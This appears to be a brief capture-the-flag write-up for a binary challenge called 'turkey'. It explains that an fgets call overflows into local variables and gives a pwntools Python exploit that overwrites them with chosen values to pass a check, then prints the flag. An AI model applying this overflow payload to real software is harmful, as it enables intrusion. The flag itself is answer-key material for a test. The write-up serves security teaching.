

Main just call `vulnerable()`:



fgets allow us to overwrite the local variable. In order to get the flag we need to do that with values to pass the if condition.

Exploit:
```python
from pwn import *

payload = ('A'*16).encode()
payload += p32(0x2A)
payload += p32(0x77)
payload += p32(0x667463)
payload += p32(0xFFFFFFE7)
payload += p32(0x1337)

#p = process('./turkey')
p = remote('challenges.auctf.com', 30011)
print(p.recvuntil('got!\n\n').decode())
p.sendline(payload)
p.interactive()
```

# FLAG
`auctf{I_s@id_1_w@s_fu11!}`
